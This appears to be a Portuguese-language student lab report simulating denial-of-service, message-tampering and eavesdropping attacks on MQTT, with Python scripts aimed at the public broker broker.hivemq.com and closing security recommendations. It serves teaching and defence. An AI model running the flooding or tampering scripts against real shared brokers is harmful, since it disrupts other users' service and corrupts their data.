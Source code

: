 # Relatório Técnico: Simulação de Ataques em Ambiente MQTT
Atividade ponderada realizada pelos alunos Bruno Moitinho Leão, Israel Nunes Lopes Carvalho e Isabela Amado da Rocha
## Introdução
- *Objetivo do teste:* Simular ataques que impactam a confidencialidade, integridade e disponibilidade em um ambiente MQTT.
- *Ferramentas utilizadas:* Cliente MQTT (MQTTool e MQTTX), broker público MQTT (broker.hivemq.com), Wireshark, scripts Python.

## Configuração do Ambiente
- *Broker MQTT:* broker.hivemq.com
- *Port:* 1883
- *Tópicos:* teste/dos, teste/integridade, teste/confidencialidade
- *Procedimento de conexão:* Conexão utilizando clientes MQTT e scripts Python.

## Ataques Simulados

### Ataque Impactando a Disponibilidade: Denial of Service (DoS)

#### Descrição do Ataque
O ataque DoS visa sobrecarregar o broker MQTT com um grande volume de mensagens ou conexões, fazendo com que ele fique indisponível para os usuários.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para automatizar o envio de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para atacar, por exemplo, teste/dos.
3. *Configuração do Script:*
   - Utilize o script Python abaixo para enviar um grande número de mensagens rapidamente.

```python
import paho.mqtt.client as mqtt
import time

broker = "broker.hivemq.com"
port = 1883
topic = "teste/dos"

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")

client = mqtt.Client()
client.on_connect = on_connect

client.connect(broker, port, 60)

client.loop_start()

for i in range(10000):  # Envia 10.000 mensagens
    client.publish(topic, "DoS attack message")
    time.sleep(0.01)  # Intervalo de 10 ms entre mensagens

client.loop_stop()
client.disconnect()
```


4. *Execução do Ataque:*
   - Execute o script Python. Ele enviará um grande número de mensagens para o tópico teste/dos rapidamente.
5. *Resultados Esperados:*
   - O broker MQTT deve ficar sobrecarregado, resultando em indisponibilidade ou lentidão na entrega de mensagens para outros usuários.

### Ataque Impactando a Integridade: Manipulação de Mensagens

#### Descrição do Ataque
O ataque de manipulação de mensagens envolve interceptar e modificar mensagens MQTT antes de serem retransmitidas para o broker.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para interceptação e modificação de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/integridade.
3. *Captura de Pacotes:*
   - Use Wireshark para capturar o tráfego MQTT na rede.
4. *Interceptação e Modificação:*
   - Configure um script Python para interceptar e modificar mensagens.

```python
import paho.mqtt.client as mqtt

broker = "broker.hivemq.com"
port = 1883
topic = "teste/integridade"

def on_message(client, userdata, msg):
    modified_message = msg.payload.decode().replace("original", "tampered")
    client.publish(topic, modified_message)

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe(topic)

client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message

client.connect(broker, port, 60)
client.loop_forever()
```

5. *Execução do Ataque:*
   - Execute o script Python. Ele simulará uma interceptação das mensagens publicadas no tópico teste/integridade, replicará o conteúdo e publicará a mensagem modificada de volta no mesmo tópico.
6. *Resultados Esperados:*
   - As mensagens no tópico teste/integridade serão modificadas, comprometendo a integridade dos dados.

### Ataque Impactando a Confidencialidade: Espionagem

#### Descrição do Ataque
O ataque de espionagem envolve interceptar e ler mensagens MQTT enviadas entre clientes e o broker, violando a confidencialidade das comunicações.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTT.fx)
- Broker público MQTT (ex: broker.hivemq.com)
- Ferramenta de captura de pacotes (ex: Wireshark)

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/confidencialidade.
   - ![tópico](https://cdn.discordapp.com/attachments/1147673467412545619/1249541075908038727/image.png?ex=6667ad4f&is=66665bcf&hm=ff2132513b36fff027130f1c293fb1043118ec8ed0c99f33420deb78a865ee8f&)
3. *Captura de Pacotes:*
   - Inicie Wireshark e configure para capturar pacotes na interface de rede usada pelo cliente MQTT.
   - Aplique um filtro de captura para o tráfego MQTT: tcp port 1883.
   - ![wireshark](https://cdn.discordapp.com/attachments/1147673467412545619/1249540787209764995/image.png?ex=6667ad0b&is=66665b8b&hm=336ae58bc5cd9dac2dbde506d52e456bf759b23f2204955c2c6ea719727f3a03&)
4. *Análise das Mensagens:*
   - Publique mensagens no tópico teste/confidencialidade usando o cliente MQTT.
   - No Wireshark, localize os pacotes MQTT capturados e examine o conteúdo das mensagens.
   - ![](https://cdn.discordapp.com/attachments/1147673467412545619/1249541002251862098/image.png?ex=6667ad3e&is=66665bbe&hm=d0526161fe6745b99c592148fff641c286fc3125faae9a7833889bd9c67c4a5b&)
5. *Resultados Esperados:*
   - As mensagens enviadas no tópico teste/confidencialidade serão visíveis no Wireshark, demonstrando que a confidencialidade foi comprometida.

## Resultados Obtidos
- *DoS:* Broker ficou sobrecarregado, resultando em indisponibilidade para outros usuários.
- *Manipulação de Mensagens:* Mensagens no tópico foram modificadas, comprometendo a integridade.
- *Espionagem:* Mensagens foram interceptadas e lidas, comprometendo a confidencialidade.

## Conclusões e Recomendações
- *Conclusões:* Os ataques demonstraram vulnerabilidades em termos de disponibilidade, integridade e confidencialidade no ambiente MQTT.
- *Recomendações:* Implementação de TLS/SSL para criptografia, autenticação forte, rate limiting e monitoramento contínuo.

## Anexos
- [Scripts utilizados](/scripts)
- Capturas de tela
